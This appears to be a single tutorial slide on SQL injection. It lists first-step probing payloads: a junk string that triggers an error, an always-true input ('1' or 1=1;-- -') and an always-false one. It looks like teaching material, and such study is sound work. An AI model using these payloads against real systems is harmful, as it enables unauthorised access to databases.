

# Now for the attack!!
Step 1: Verify sql is vulnerable by supplying payload
Trigger an error condition
1kjhjh' adnskfnak
Insert a query that is always true
1' or 1=1;-- -

Insert a query that is always false
1' and 1=2;-- -